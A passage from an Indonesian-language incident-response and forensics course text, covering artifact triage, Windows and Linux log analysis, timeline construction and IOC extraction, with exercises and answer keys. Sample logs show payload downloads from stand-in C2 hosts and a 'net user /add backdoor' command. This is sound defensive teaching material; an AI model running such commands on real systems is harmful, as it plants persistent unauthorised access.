# 2. Banyak NXDOMAIN (domain tidak ada) → kemungkinan DGA malware
# 3. Query ke TLD tidak umum (seperti .bit, .onion via resolver) → suspicious
# 4. Frekuensi tinggi ke satu domain → kemungkinan C2 via DNS

# Hitung entropy subdomain (Python):
import math
def entropy(s):
    p = [float(s.count(c)) / len(s) for c in set(s)]
    return -sum(x * math.log2(x) for x in p)

# Domain dengan entropy > 3.5 di subdomain → suspicious
```

**Proxy/HTTP Logs:**
```
# Format akses log Nginx/Apache
192.168.1.105 - - [12/Sep/2025:14:23:45 +0700] 
  "GET /download/update.bin HTTP/1.1" 200 1048576 
  "-" "Mozilla/5.0 (compatible; Googlebot/2.1)" 
  "evil-c2-server.com"

# Red flags:
# 1. User-Agent yang tidak konsisten dengan tipe traffic
#    (misalnya "curl/7.68.0" mengakses banking endpoint — bukan browser normal)
# 2. URL dengan parameter yang terlihat encoded/obfuscated
# 3. Download file besar (.exe, .zip, .bin) dari domain tidak dikenal
# 4. POST request besar ke domain tidak dikenal (potensial exfiltration)
# 5. HTTP response code 200 untuk path yang seharusnya tidak ada
```

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Skenario: Endpoint dengan proses mencurigakan dan koneksi outbound tidak dikenal**

```bash
# Konteks: server Linux produksi. Monitoring mendeteksi outbound connection ke 
# IP 185.220.101.45 (Tor exit node) dari server yang seharusnya tidak pernah 
# terhubung ke internet secara langsung.

# LANGKAH 1: Kumpulkan proses yang sedang berjalan (VOLATILE — segera!)
ps aux > /evidence/$(hostname)_processes_$(date +%Y%m%d_%H%M%S).txt

# LANGKAH 2: Identifikasi proses yang membuat koneksi mencurigakan
# Cari PID yang terkait dengan koneksi ke 185.220.101.45
ss -tulpn | grep "185.220.101.45"
# Output: tcp ESTAB 0 0 192.168.1.50:45123 185.220.101.45:443 users:(("sshd",pid=31337,fd=3))
# Suspicious: proses "sshd" (SSH daemon) membuat outbound connection? Biasanya sebaliknya!

# LANGKAH 3: Investigasi proses lebih lanjut
ls -la /proc/31337/exe  # symlink ke executable
# Mungkin output: /tmp/.hidden/sshd  ← NOT the real sshd! Ini malware yang menamai diri "sshd"

cat /proc/31337/cmdline | tr '\0' ' '
# Lihat command line yang digunakan

# LANGKAH 4: Ambil hash dari executable mencurigakan
sha256sum /tmp/.hidden/sshd
# 8f3a2b1c... /tmp/.hidden/sshd
# Submit ke VirusTotal (secara offline: cari di abuse.ch/malwarebazaar via hash)

# LANGKAH 5: Ambil memory dump (jika tools tersedia)
# Contoh dengan LiME:
# insmod lime.ko "path=/evidence/memory_$(date +%Y%m%d_%H%M%S).lime format=lime"
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Melakukan triage artefak dari dataset yang telah disediakan.

**Dataset (tersedia dari dosen — dataset statis, bukan sistem live):**
- Windows Event Log export (EVTX files) dari sistem yang dikompromis
- Zeek logs (conn.log, dns.log, http.log) dari 24 jam traffic
- Prefetch files dari sistem yang sama
- Process list snapshot (CSV)

**Langkah:**
1. Buat artifact inventory table: nama file, sumber, ukuran, hash SHA-256, timestamp.
2. Dari process list: identifikasi proses yang mencurigakan (nama menyerupai proses legitimate, path tidak biasa, parent process tidak wajar).
3. Dari Windows Event Log: ekstrak Event ID 4624 (Logon), 4625 (Failed Logon), 4688 (Process Creation), 4698/4702 (Scheduled Task Created/Modified) dalam window 24 jam.
4. Dari Zeek DNS log: identifikasi query dengan entropy tinggi di subdomain.
5. Dari Zeek conn.log: identifikasi koneksi outbound ke IP/port yang tidak biasa.

**Output:** Artifact inventory + temuan awal (5-10 observasi terpenting) — bagian dari Eval-2.

## 8. Latihan Pemahaman

1. **(C2)** Mengapa RAM (Random Access Memory) dianggap sebagai artefak paling volatile? Apa jenis informasi kritis yang bisa ditemukan dalam memory dump yang tidak bisa ditemukan dari analisis disk saja?

2. **(C4)** Anda menemukan proses bernama `svch0st.exe` (bukan `svchost.exe`) berjalan dari `C:\Users\Public\Downloads\`. Apa hipotesis awal Anda, dan langkah investigasi apa yang akan Anda lakukan selanjutnya?

3. **(C3)** Jelaskan mengapa DNS logs sering menjadi artefak jaringan yang paling berharga dalam investigasi insiden yang melibatkan malware, bahkan ketika traffic payload dienkripsi.

## 9. Latihan Terapan / Studi Kasus

Tim CSIRT menerima alert: server web menggunakan 99% CPU dan ada spike traffic outbound 5 GB dalam 30 menit terakhir. SSH dan RDP ke server masih bisa dilakukan (sistem masih up). Susun rencana triage artefak dalam 15 menit pertama: (a) artefak volatile apa yang harus dikumpulkan pertama dan menggunakan tools/command apa; (b) bagaimana Anda menentukan proses mana yang bertanggung jawab atas CPU usage dan traffic tinggi; (c) setelah artefak volatile diamankan, artefak non-volatile apa yang menjadi prioritas berikutnya; (d) apakah Anda akan mengisolasi server dari network segera atau menunggu? Justifikasikan berdasarkan pertimbangan forensik.

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** RAM volatile karena isinya hilang saat sistem dimatikan atau kehilangan daya. Informasi kritis dalam memory dump yang tidak ada di disk: (a) kunci enkripsi yang sedang digunakan oleh malware — ini yang memungkinkan dekripsi file yang dienkripsi ransomware tanpa membayar ransom dalam beberapa kasus; (b) proses yang sedang berjalan termasuk proses injeksi yang tidak meninggalkan file di disk (fileless malware); (c) koneksi network aktif dan state dari socket; (d) password dan token yang sedang digunakan dalam memori (disalahgunakan oleh tools seperti Mimikatz); (e) command line dari proses yang sudah di-terminate tapi masih dalam memory page.

**Soal 2:** `svch0st.exe` (angka 0, bukan huruf o) dari path tidak standar adalah classic indicator of compromise — attacker sering menggunakan typosquatting nama proses untuk kamuflase. Investigasi selanjutnya: (a) `sha256sum` atau hash file tersebut — cari di VirusTotal/MalwareBazaar; (b) periksa parent process — apakah spawned dari browser atau email client? (c) periksa koneksi network yang dibuat proses ini (`netstat -ano | findstr <PID>`); (d) periksa apakah ada entry di Run Keys atau Scheduled Tasks untuk persistence; (e) ambil memory dump dari proses tersebut jika memungkinkan; (f) JANGAN terminate sampai evidence dikumpulkan.

**Soal 3:** DNS berharga karena: (a) DNS query umumnya tidak dienkripsi (bahkan koneksi HTTPS masih memerlukan DNS resolution) → terlihat meskipun payload dienkripsi; (b) malware harus meresolve domain C2 sebelum berkomunikasi → DNS log selalu ada sebelum koneksi aktif; (c) DNS tunneling menggunakan subdomain untuk encode data — ini terlihat sebagai anomaly dalam DNS log meskipun payload di dalam tunnel dienkripsi; (d) DGA (Domain Generation Algorithm) malware menghasilkan ratusan NXDOMAIN per menit — pola yang sangat khas dan terlihat di DNS log; (e) bahkan jika koneksi C2 menggunakan IP langsung (tanpa DNS), beberapa malware awal melakukan DNS beaconing sebagai keepalive.

**Studi Kasus:** (a) Artefak volatile 15 menit pertama: (1) `ps aux` dan `top` untuk identifikasi proses CPU-hungry; (2) `ss -tulpn` dan `netstat -ano` untuk koneksi outbound; (3) `lsof -p <PID>` untuk file yang dibuka oleh proses mencurigakan; (4) memory dump dari proses mencurigakan jika memungkinkan. (b) CPU dan traffic: korelasikan PID dari `ps` dengan proses yang membuat koneksi dari `ss`. Gunakan `iotop` untuk I/O dan `nethogs` untuk network per-process. (c) Non-volatile berikutnya: bash history, cron jobs, /etc/crontab, file yang baru dimodifikasi dalam 48 jam (`find / -mtime -2`), auth.log dan syslog. (d) Isolasi dari network: dilakukan SETELAH artefak volatile diamankan, bukan sebelumnya. Jika diisolasi segera, koneksi outbound terputus dan pattern C2 tidak bisa dianalisis; juga kehilangan kesempatan capture traffic malware secara aktif. Compromise: tambah monitoring ketat (packet capture) dan batasi egress, jangan cut off total sampai memory dump dan process list diamankan.

## 11. Ringkasan Bab

Order of volatility menentukan urutan pengumpulan artefak: RAM → network state → proses → disk. Artefak endpoint Windows mencakup Event Logs, Prefetch, AmCache, Registry Run Keys, dan scheduled tasks. Artefak jaringan meliputi firewall logs, DNS logs, proxy logs, dan PCAP. Artifact inventory dengan hashing SHA-256 memastikan integritas evidence.

## 12. Refleksi Profesional

1. Dalam situasi insiden kritis, tekanan untuk "mematikan server sekarang dan selesaikan masalah" sangat besar dari sisi bisnis. Namun dari perspektif DFIR, ini bisa menghancurkan evidence paling berharga. Bagaimana seorang CSIRT analyst mengkomunikasikan dan menegosiasikan kebutuhan forensik dengan kebutuhan operasional bisnis yang sering bertentangan?

---

# BAB 5 — LOG/TELEMETRY ANALYSIS DAN TIMELINE CONSTRUCTION

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Menganalisis Windows Event Logs dan Linux syslogs untuk menemukan indikator insiden
- Membangun timeline insiden dari berbagai sumber log
- Mengidentifikasi teknik evasion log yang digunakan attacker
- Menggunakan tools analisis log secara efektif

*Berkaitan dengan Sub-CPMK-2, Eval-2 (20%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Log Analysis] --> B[Windows Event Logs]
    B --> B1["Security Log:\nLogon, Process, Object Access"]
    B --> B2["System Log:\nService start/stop, driver load"]
    B --> B3["Application Log:\nApp-specific events"]
    B --> B4["Sysmon Events:\nProcess create, network,\nfile, registry (more detail)"]
    A --> C[Linux Logs]
    C --> C1["auth.log / secure:\nSSH, sudo, PAM"]
    C --> C2["syslog: system events"]
    C --> C3["audit.log: auditd events"]
    C --> C4["journald: systemd logs"]
    A --> D[Timeline Construction]
    D --> D1["Normalize timestamps:\nkonversi ke UTC"]
    D --> D2["Merge sources:\nEndpoint + Network + App"]
    D --> D3["Identify pivots:\nevent yang menghubungkan\nantar sumber"]
    D --> D4["Visualize:\ntimeline diagram"]
    A --> E[Log Evasion Techniques]
    E --> E1["Event Log Clearing:\nEvent ID 1102/104"]
    E --> E2["Log rotation manipulation"]
    E --> E3["Timestomp:\nubah file timestamps"]
```

## 3. Pengantar Kontekstual

Log adalah saksi bisu dari setiap aktivitas di sistem. Namun saksi bisu ini memerlukan interpreter yang terampil — tanpa kemampuan menganalisis log dari berbagai sumber dan membangunnya menjadi narasi yang kohesif, ribuan baris log hanya menjadi noise. Timeline analysis adalah keterampilan core DFIR yang mengubah data log yang terstruktur menjadi cerita yang dapat dipahami: apa yang terjadi, kapan, oleh siapa, dan dalam urutan apa.

## 4. Landasan Teori

### 4.1 Windows Event Log Kunci untuk IR

Windows Event Log menggunakan Event IDs yang terstandar. Berikut adalah Event IDs paling relevan untuk investigasi insiden:

**Authentication Events (Security Log):**

| Event ID | Deskripsi | Relevansi IR |
|---|---|---|
| 4624 | Successful logon | Kapan dan dari mana user login? |
| 4625 | Failed logon | Bruteforce attempt |
| 4634/4647 | Logoff | Timeline aktivitas sesi |
| 4648 | Logon with explicit credentials | Teknik pass-the-hash, runas |
| 4672 | Special privileges assigned | Admin/SYSTEM token assignment |
| 4720 | User account created | Attacker buat backdoor account? |
| 4732 | User added to local group | Privilege escalation |

**Logon Types (penting untuk analisis 4624):**

| Type | Deskripsi | Implication |
|---|---|---|
| 2 | Interactive (langsung di keyboard) | Physical/console access |
| 3 | Network | SMB, RPC, file share |
| 4 | Batch | Scheduled task |
| 5 | Service | Service start |
| 7 | Unlock | Unlock screensaver |
| 10 | RemoteInteractive | RDP |
| 11 | CachedInteractive | Laptop offline dengan cached credentials |

**Process Events (Security Log + Sysmon):**

| Source | Event ID | Deskripsi |
|---|---|---|
| Security | 4688 | Process creation (jika command line logging diaktifkan) |
| Security | 4689 | Process termination |
| Sysmon | 1 | Process creation (lebih detail dari 4688) |
| Sysmon | 3 | Network connection dari proses |
| Sysmon | 7 | Image loaded (DLL) |
| Sysmon | 11 | File created |
| Sysmon | 13 | Registry value set |

**Log Clearing (tanda-tanda attacker menghapus jejak):**

| Event ID | Deskripsi |
|---|---|
| 1102 | Security Log cleared (oleh user) |
| 104 | System Log cleared |
| 517 | Security Log cleared (Windows XP/2003) |

### 4.2 Windows Event Log Analysis dengan PowerShell

```powershell
# Cari semua logon sukses dalam 24 jam terakhir
$StartTime = (Get-Date).AddHours(-24)
Get-WinEvent -FilterHashtable @{
    LogName='Security'
    Id=4624
    StartTime=$StartTime
} | Select-Object TimeCreated, 
    @{N='User';E={$_.Properties[5].Value}},
    @{N='LogonType';E={$_.Properties[8].Value}},
    @{N='SourceIP';E={$_.Properties[18].Value}} |
    Where-Object LogonType -eq 10  # Filter hanya RDP (type 10)

# Cari proses yang dibuat oleh svchost.exe yang mencurigakan
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4688} |
    ForEach-Object {
        $xml = [xml]$_.ToXml()
        $parentProcess = $xml.Event.EventData.Data | 
            Where-Object Name -eq 'ParentProcessName' | 
            Select-Object -ExpandProperty '#text'
        $newProcess = $xml.Event.EventData.Data | 
            Where-Object Name -eq 'NewProcessName' | 
            Select-Object -ExpandProperty '#text'
        if ($parentProcess -like '*svchost*' -and 
            $newProcess -notlike '*Windows*') {
            [PSCustomObject]@{
                Time = $_.TimeCreated
                Parent = $parentProcess
                Child = $newProcess
            }
        }
    }
```

### 4.3 Linux Log Analysis

```bash
# auth.log — SSH login analysis
grep "Accepted password\|Accepted publickey" /var/log/auth.log | 
    awk '{print $1, $2, $3, $9, $11}' | head 50

# Cari failed login yang banyak (bruteforce indicator)
grep "Failed password" /var/log/auth.log | 
    awk '{print $9}' | sort | uniq -c | sort -rn | head 20

# Cari sudo usage
grep "sudo:" /var/log/auth.log | grep "COMMAND" | head 30

# auditd — track specific user atau file access
ausearch -ua 1001 --start today | aureport -f  # user dengan UID 1001
ausearch -f /etc/passwd | head 20  # akses ke /etc/passwd

# Cari file yang baru dibuat di direktori mencurigakan
find /tmp /var/tmp /dev/shm -type f -newer /tmp -ls 2>/dev/null
```

### 4.4 Timeline Construction

Timeline adalah representasi kronologis dari events yang relevan dengan insiden, dari berbagai sumber yang dimerge dan dinormalisasi.

**Prinsip timeline construction:**

1. **Normalisasi timestamp:** Semua sumber harus dalam timezone yang sama (sebaiknya UTC). Log dari berbagai sistem mungkin menggunakan timezone berbeda.

2. **Identifikasi "anchor events":** Events yang dapat dikonfirmasi dari multiple sources (misalnya: IP yang sama muncul di firewall log DAN proxy log DAN endpoint log pada waktu yang sama).

3. **Merge dan sort:** Gabungkan semua events yang relevan, sort berdasarkan timestamp.

4. **Identifikasi gap:** Jika ada periode dengan tidak ada log (padahal seharusnya ada) → kemungkinan log dihapus atau log collection gagal.

**Contoh format timeline:**

```
TIMELINE INSIDEN — [NAMA INSIDEN] [Tanggal]
============================================
[Semua timestamp dalam UTC+7/WIB]

[2025-09-12 13:45:00] PHISHING — Email dari "hr@companyfake.com" 
                       diterima oleh user@company.com
                       Sumber: Exchange mail log
                       
[2025-09-12 14:02:33] PHISHING CLICK — User mengklik link dalam email
                       Sumber: Proxy log (URL: http://malsite.ru/invoice.php)
                       
[2025-09-12 14:02:41] MALWARE DOWNLOAD — GET /invoice.exe HTTP/1.1 200 OK
                       Sumber: Proxy log + Endpoint EDR
                       
[2025-09-12 14:03:15] EXECUTION — Process Created: invoice.exe 
                       Parent: chrome.exe
                       MD5: 3f2a1b4c...
                       Sumber: Sysmon Event ID 1
                       
[2025-09-12 14:03:18] C2 ESTABLISHED — DNS Query: update.evil-c2.ru
                       A: 185.220.101.45
                       Sumber: DNS log
                       
[2025-09-12 14:03:25] C2 CONNECTED — TCP connection 192.168.1.105:49521 → 
                       185.220.101.45:443 ESTABLISHED
                       Sumber: Firewall log + Sysmon Event 3
                       
[2025-09-12 14:15:00] DISCOVERY — whoami, net user, ipconfig dijalankan
                       Parent: invoice.exe (PID: 4532)
                       Sumber: Sysmon Event ID 1, Security 4688
                       
[2025-09-12 14:22:11] LATERAL MOVEMENT — SMB connection dari 192.168.1.105 
                       ke 192.168.1.20 (file server)
                       Sumber: Firewall log + SMB access log
                       
[?????] GAP — Tidak ada log dari 14:22 sampai 16:00 dari endpoint 192.168.1.105
                       [ALERT: Kemungkinan log clearing — cek Event ID 1102]
                       
[2025-09-12 16:01:55] DETECTION — IDS alert: Suspicious outbound traffic pattern
                       Sumber: Suricata alert
```

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Analisis log clearing oleh attacker:**

```powershell
# Cek apakah Security Log pernah di-clear
Get-WinEvent -LogName Security -FilterXPath "*[System[EventID=1102]]" |
    Select-Object TimeCreated, Message | Format-List

# Jika ditemukan Event 1102:
# TimeCreated: 12/09/2025 14:30:00
# Message: The audit log was cleared. Subject: Security ID: S-1-5-21-...\Administrator
# 
# Ini berarti: Administrator membersihkan Security log pukul 14:30
# SUSPICIOUS: apakah ini legitimate admin activity atau attacker yang menghapus jejak?
# Cross-reference dengan: apakah administrator login pukul 14:30 tersebut legitimate?
# Cek 4624 (logon) sebelum 14:30 untuk akun Administrator

# Untuk mengisi gap setelah log clearing:
# Periksa apakah ada remote logging (SIEM) yang menyimpan log sebelum clearing
# Periksa backup log jika ada
# Periksa log dari firewall/proxy untuk aktivitas dari endpoint selama periode gap
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Membangun timeline insiden dari dataset log yang disediakan.

**Dataset (dari dosen):** Windows Event Log (EVTX), Sysmon log, Zeek conn/dns/http logs, dan firewall log selama 48 jam.

**Langkah:**
1. Parse EVTX dan ekstrak event ID yang relevan: 4624, 4625, 4688, 4698, 1102.
2. Parse DNS log dan identifikasi domain dengan entropy tinggi atau yang ada di threat intel feed.
3. Parse firewall log dan identifikasi koneksi outbound ke IP yang tidak biasa.
4. Normalisasi semua timestamp ke UTC+7.
5. Merge semua events yang relevan menjadi satu timeline terurut.
6. Identifikasi gap dalam log.
7. Susun narasi singkat: apa yang terjadi berdasarkan timeline?

**Tools yang dapat digunakan:** Python (pandas untuk CSV), PowerShell, log2timeline (Plaso), atau manual dengan spreadsheet.

**Output:** Timeline document (format tabel atau teks terformat) — bagian dari Eval-2.

## 8. Latihan Pemahaman

1. **(C4)** Anda menemukan Event ID 1102 (Security Log Cleared) pada timestamp 03:00 WIB, diikuti oleh tidak ada event Security log dari 03:00 hingga 08:00. Apa interpretasi paling mungkin, dan bagaimana Anda mencari evidence alternatif untuk periode yang "hilang" tersebut?

2. **(C3)** Jelaskan apa yang dimaksud dengan "timestomping" dalam konteks attacker, dan mengapa teknik ini dapat mempersulit timeline analysis. Apa bukti counter yang bisa digunakan untuk mendeteksi timestomping?

## 9. Latihan Terapan / Studi Kasus

Diberikan excerpt log berikut (semua dalam WIB):
- 09:15:23 — Firewall: ALLOW TCP 10.10.1.55:49123 → 203.0.113.10:443
- 09:15:27 — DNS: 10.10.1.55 query "update.msdownload.windowsupdate.com.malicious.ru" → NXDOMAIN
- 09:15:31 — DNS: 10.10.1.55 query "c2server.xyz" → 203.0.113.10
- 09:15:33 — Proxy: GET http://c2server.xyz/payload.bin 200 OK 2048576 bytes
- 09:16:02 — Sysmon Event 1: payload.bin process created, parent: iexplore.exe
- 09:16:45 — Sysmon Event 1: cmd.exe process created, parent: payload.bin
- 09:17:01 — Security 4688: whoami.exe, parent: cmd.exe
- 09:17:15 — Security 4688: net.exe /user /add backdoor P@ssw0rd123
- 09:17:45 — Security 4720: User account "backdoor" created

Susun timeline formal untuk skenario ini, identifikasi ATT&CK technique untuk setiap event, dan tentukan: pada tahap kill chain mana insiden saat ini berada saat terdeteksi?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Interpretasi: ini hampir pasti adalah aktivitas attacker yang membersihkan Security Log setelah berhasil masuk — pukul 03:00 adalah waktu "quiet" di luar jam kerja. Mencari evidence untuk periode gap: (a) SIEM/remote logging: jika organisasi memiliki SIEM yang mengumpulkan log sebelum 1102, log tersebut ada di SIEM meskipun sudah dihapus dari endpoint; (b) Network artifacts: firewall, proxy, DNS logs dari 03:00-08:00 tidak ikut dihapus — bisa mengrekonstruksi aktivitas network; (c) Filesystem artifacts: file yang dibuat, dimodifikasi, atau dihapus selama periode gap masih terlihat dari MFT timeline meskipun Security Log sudah dihapus; (d) Windows Management Instrumentation (WMI): beberapa aktivitas attacker tertinggal di WMI repository; (e) Application logs: tidak semua log masuk ke Security Log — browser log, Office log, dll. mungkin masih ada.

**Soal 2:** Timestomping adalah teknik di mana attacker mengubah timestamp file (Created, Modified, Accessed, MFT Changed) untuk membuat file malware terlihat seolah sudah lama ada di sistem — misalnya mengubah timestamp menjadi 5 tahun yang lalu untuk menghindari analisis "file baru". Deteksi timestomping: (a) $STANDARD_INFORMATION vs $FILE_NAME dalam NTFS — attacker dapat mengubah STANDARD_INFORMATION tapi mengubah FILE_NAME lebih sulit dan jarang dilakukan; jika keduanya berbeda secara mencurigakan → timestomping; (b) Filesystem MFT record timestamp vs $LogFile atau USN Journal yang mungkin mencatat waktu sebenarnya modifikasi MFT; (c) Event log: process creation timestamp (Sysmon Event 1) tidak bisa di-timestomp → cross-reference dengan file timestamp; (d) Metadata file (dokumen Office, PDF) sering menyimpan creation date internal yang berbeda dari filesystem timestamp.

**Studi Kasus Timeline + ATT&CK:**
```
[09:15:23] Koneksi ke 203.0.113.10:443 — T1071.001 (Application Layer C2 via Web)
[09:15:27] DNS NXDOMAIN ke domain DGA-like — T1568.002 (Domain Generation Algorithm)
[09:15:31] DNS resolve c2server.xyz — T1071.004 (DNS for C2)
[09:15:33] Download payload 2MB via HTTP — T1105 (Ingress Tool Transfer)
[09:16:02] payload.bin executed from iexplore.exe — T1059 + T1203 (Exploitation)
[09:16:45] cmd.exe spawned dari payload — T1059.003 (Windows Command Shell)
[09:17:01] whoami.exe — T1033 (System Owner/User Discovery)
[09:17:15] net.exe /user /add — T1136.001 (Create Local Account)
[09:17:45] Account "backdoor" created — T1136.001 confirmed
```
Posisi dalam Kill Chain: **Installation (tahap 5)** — payload sudah dieksekusi, akun backdoor dibuat untuk persistence. Attacker belum terlihat mengeksfiltrasi data (Actions on Objectives) tapi sudah membangun foothold. Respons: containment segera (isolasi workstation), tapi setelah memory dump; eradication mencakup hapus akun backdoor, hapus payload, patch kerentanan yang memungkinkan iexplore.exe mendownload dan mengeksekusi file.

## 11. Ringkasan Bab

Windows Event IDs kunci untuk IR: 4624/4625 (logon), 4688 (process creation), 4698 (scheduled task), 1102 (log cleared). Timeline construction menggabungkan log dari berbagai sumber dengan timestamp yang dinormalisasi. Gap dalam timeline adalah red flag yang memerlukan investigasi lebih lanjut. Attacker menggunakan log clearing dan timestomping untuk menghilangkan jejak, namun teknik-teknik ini meninggalkan indikator tersendiri.

## 12. Refleksi Profesional

1. Banyak organisasi kecil dan menengah tidak memiliki SIEM terpusat dan hanya mengandalkan log lokal di setiap sistem. Ketika terjadi insiden dan attacker menghapus log lokal, organisasi tersebut kehilangan sebagian besar evidence. Sebagai konsultan keamanan, bagaimana Anda merekomendasikan strategi logging minimum yang praktis untuk organisasi dengan anggaran terbatas?

---

# BAB 6 — IOC EXTRACTION, CHAIN OF CUSTODY LANJUTAN, DAN ROOT CAUSE HYPOTHESIS

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengekstrak dan mendokumentasikan IOC dari artefak insiden
- Mengklasifikasikan IOC berdasarkan tipe dan kualitasnya (Pyramid of Pain)
- Memformulasikan root cause hypothesis yang berbasis bukti
- Menyusun laporan triage insiden yang dapat diaudit

*Berkaitan dengan Sub-CPMK-2, Eval-2 (20%)*

## 2. Peta Konsep Bab



## 3. Pengantar Kontekstual

IOC adalah "tanda tangan" dari serangan yang memungkinkan deteksi dan pencegahan serangan serupa di masa depan. Namun tidak semua IOC diciptakan sama — harga sebuah hash file berbeda dari harga sebuah TTP (taktik, teknik, prosedur). Pyramid of Pain, yang diperkenalkan oleh David Bianco, menggambarkan biaya relatif bagi attacker untuk mengubah setiap tipe IOC — semakin tinggi dalam piramid, semakin mahal bagi attacker untuk beradaptasi.

## 4. Landasan Teori

### 4.1 Tipe IOC dan Ekstraksinya

**Network IOC:**

```python
"""Ekstrak IOC jaringan dari log Zeek"""
import re

def extract_network_iocs(log_line):
    iocs = {}
    
    # IPv4 addresses
    ip_pattern = r'\b(?:(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\b'
    iocs['ips'] = re.findall(ip_pattern, log_line)
    
    # Domain names (simplified)
    domain_pattern = r'\b(?:[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?\.)+[a-zA-Z]{2,}\b'
    iocs['domains'] = re.findall(domain_pattern, log_line)
    
    # URLs
    url_pattern = r'https?://[^\s<>"\'{}|\\^`\[\]]+'
    iocs['urls'] = re.findall(url_pattern, log_line)
    
    return iocs

# Contoh penggunaan:
log = 'GET http://c2server.xyz/payload.bin HTTP/1.1" 200 2048576 "-" "curl/7.68.0"'
print(extract_network_iocs(log))
# Output: {'ips': [], 'domains': ['c2server.xyz'], 'urls': ['http://c2server.xyz/payload.bin']}
```

**Host IOC:**

```bash
# File hashes dari file yang mencurigakan
sha256sum /tmp/.hidden/payload.bin
# → a3b4c5d6e7f8... /tmp/.hidden/payload.bin

# Registry keys (Windows) — export untuk analisis
reg export HKCU\Software\Microsoft\Windows\CurrentVersion\Run run_keys.reg
reg export HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon winlogon.reg

# Scheduled tasks (Windows)
schtasks /query /fo csv > scheduled_tasks.csv
# Cari tasks yang tidak dikenal atau dibuat oleh user yang tidak wajar

# Scheduled tasks (Linux)
crontab -l; cat /etc/crontab; ls /etc/cron.*

# Service yang tidak dikenal (Windows)
sc query type= all state= all > all_services.txt
# Bandingkan dengan baseline — service baru yang tidak ada di baseline → suspicious
```

### 4.2 Pyramid of Pain

David Bianco's Pyramid of Pain menggambarkan tingkat "kepayahan" yang diderita attacker jika defender berhasil mengidentifikasi dan memblokir setiap tipe IOC:

```
            ╔══════════════════════════════╗
            ║         TTPs                ║  ← Sangat menyakitkan bagi attacker
            ║   (Tactics, Techniques,     ║    (mengubah cara kerja fundamental)
            ║      Procedures)            ║
            ╠══════════════════════════════╣
            ║         Tools               ║  ← Menyakitkan
            ║    (custom malware,         ║    (harus develop/ganti tools)
            ║     attack frameworks)      ║
            ╠══════════════════════════════╣
            ║      Network/Host           ║  ← Cukup menyakitkan
            ║       Artifacts             ║    (perlu reconfig C2, payload)
            ╠══════════════════════════════╣
            ║   Domain Names              ║  ← Mudah
            ╠══════════════════════════════╣
            ║      IP Addresses           ║  ← Mudah
            ╠══════════════════════════════╣
            ║     Hash Values             ║  ← Trivial (ganti satu byte, hash baru)
            ╚══════════════════════════════╝
```

**Implikasi praktis:**
- Blocking berdasarkan hash saja tidak efektif — attacker tinggal recompile malware
- Blocking berdasarkan TTP (misalnya: "PowerShell yang mendownload dari internet") jauh lebih tahan lama
- Investasi terbesar harus pada deteksi berbasis TTP dan behavior, bukan hanya IOC sederhana

### 4.3 Root Cause Hypothesis

Root cause hypothesis adalah pernyataan berstruktur tentang *bagaimana* insiden terjadi berdasarkan evidence yang tersedia. Ini berbeda dari kesimpulan final — hypothesis dapat dan harus direvisi saat evidence baru ditemukan.

**Komponen root cause hypothesis:**

1. **Initial access vector:** Bagaimana attacker pertama kali masuk ke environment?
   - Phishing email? Exploited vulnerability? Stolen credentials? Insider?
   - Evidence: timestamp pertama anomaly, payload pertama yang dieksekusi

2. **Attack progression:** Setelah initial access, bagaimana attack berkembang?
   - Privilege escalation? Lateral movement? Data staging?

3. **Attacker objective:** Apa yang tampaknya ingin dicapai attacker?
   - Data exfiltration? Ransomware? Cryptomining? Espionage? Sabotage?
   - Evidence: data apa yang diakses, tools apa yang digunakan

4. **Confidence level:** Seberapa yakin kita dengan hypothesis ini?
   - High: multiple independent evidence yang konsisten
   - Medium: evidence mendukung tapi ada gap
   - Low: hanya educated guess berdasarkan data terbatas

**Format hypothesis statement:**
```
HIPOTESIS AKAR PENYEBAB
========================
Pernyataan: Attacker mendapatkan initial access melalui phishing email yang 
mengandung makro Word berbahaya (T1566.001), yang mendownload dan mengeksekusi 
loader (T1105) yang kemudian establish C2 ke 185.220.101.45 (T1071.001). 
Attacker kemudian melakukan discovery (T1033, T1082) dan membuat akun backdoor 
(T1136.001). Tujuan attacker belum dapat ditentukan dengan pasti.

Confidence Level: MEDIUM

Supporting Evidence:
- Email dengan attachment .docm diterima pukul 13:45 WIB [Sumber: Exchange log]
- Proses winword.exe menspawn cmd.exe pukul 13:47 WIB [Sumber: Sysmon Event 1]
- DNS query ke C2 domain pukul 13:47:30 WIB [Sumber: DNS log]
- Akun "backdoor" dibuat pukul 14:15 WIB [Sumber: Security Event 4720]

Evidence Gaps:
- Belum dapat mengkonfirmasi apakah data dieksfiltrasi
- Identitas email pengirim sebenarnya belum dapat diverifikasi
- Scope lateral movement belum teridentifikasi penuh
```

## 5. Model atau Arsitektur

